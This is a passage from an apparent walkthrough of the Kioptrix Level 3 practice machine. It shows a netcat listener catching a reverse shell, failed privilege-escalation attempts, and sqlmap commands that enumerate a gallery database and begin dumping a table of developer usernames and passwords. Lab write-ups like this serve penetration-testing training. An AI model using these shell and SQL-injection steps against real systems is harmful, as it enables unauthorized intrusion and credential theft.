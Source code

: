 While catching the shell with a listener on a second Terminal tab on Kali:

```bash                                                                                                                          
kali@kali:~$ nc -nlvp 7777
listening on [any] 7777 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.109] 56198                                                                                                              
whoami                                                                                                                           
www-data
```

I then spent some time trying out exploits based on the kernel/OS version of the target. Unfortunately, none of these successfully elevated my privileges to root. This was due to the exploits being based on 64-bit systems instead of 32-bit, being dependent on missing files that can't be installed without `sudo` or other reasons.

I had a feeling there was still more to be found out on the website running on the target's machine so I went back to that. The website had a login form but it didn't seem to be vulnerable to SQL injection. After some more looking around I found out that the gallery pictures could be sorted in a way that was vulnerable to SQL injection:

![alt]({{ site.url }}{{ site.baseurl }}/images/kioptrix12_sqltest.png)

I decided to run `sqlmap` against this vulnerable URL to see what information I could find. `sqlmap` has to be run multiple times with different command options as it builds on what is found in the previous steps. This means a lot of commands had to be run with a lot of output, most of which I left out for the sake of readability. The most interesting parts are the following:

```bash
kali@kali:~$ sqlmap kioptrix3.com/gallery/gallery.php?id=1 --dbs
available databases [3]:                                                                                                                                                      
[*] gallery
[*] information_schema
[*] mysql

kali@kali:~$ sqlmap kioptrix3.com/gallery/gallery.php?id=1 -D gallery --tables
Database: gallery                                                                                                                                                             
[7 tables]
+----------------------+
| dev_accounts         |
| gallarific_comments  |
| gallarific_galleries |
| gallarific_photos    |
| gallarific_settings  |
| gallarific_stats     |
| gallarific_users     |
+----------------------+

kali@kali:~$ sqlmap kioptrix3.com/gallery/gallery.php?id=1 -D gallery -T dev_accounts --columns
Database: gallery                                                                                                                                                             
Table: dev_accounts
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(10)     |
| password | varchar(50) |
| username | varchar(50) |
+----------+-------------+

kali@kali:~$ sqlmap kioptrix3.com/gallery/gallery.php?id=1 -D gallery -T dev_accounts --dump
Database:
```